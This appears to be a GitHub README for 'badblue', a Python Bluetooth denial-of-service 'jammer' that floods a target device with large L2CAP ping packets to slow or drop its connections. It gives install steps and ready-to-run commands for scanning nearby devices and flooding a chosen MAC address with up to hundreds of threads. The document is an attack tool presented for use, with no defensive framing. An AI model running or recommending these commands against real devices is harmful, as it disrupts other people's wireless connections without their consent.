 # badblue
Annoying bluetooth DoS "jammer" that floods target device with large L2CAP ping packets, causing it to slow down other data transfers or disconnect altogether.

This repo steals heavily from [crypt0b0y's BLUETOOTH-DOS-ATTACK-SCRIPT](https://github.com/crypt0b0y/BLUETOOTH-DOS-ATTACK-SCRIPT).

## Dependencies
This script uses `bluetoothctl` for listing devices and `l2ping` for flooding. Both these utilities are in the `bluez` package.
```bash
sudo apt update
sudo apt install bluez

# verify installation (both should be installed)
bluetoothctl --version
l2ping -h
```

## Usage
List nearby bluetooth devices
```bash
sudo python3 badblue.py list

# you can also specify time to wait for advertisements
sudo python3 badblue.py list --wait-time 8
```

Flood a device
```bash
sudo python3 badblue.py flood 88:AA:BB:CC:DD:EE

# optionally specify number of threads to spawn and size of each ping packet sent
sudo python3 badblue.py --packet-size 300 --threads 500 flood 88:C9:E8:0B:11:1E
```
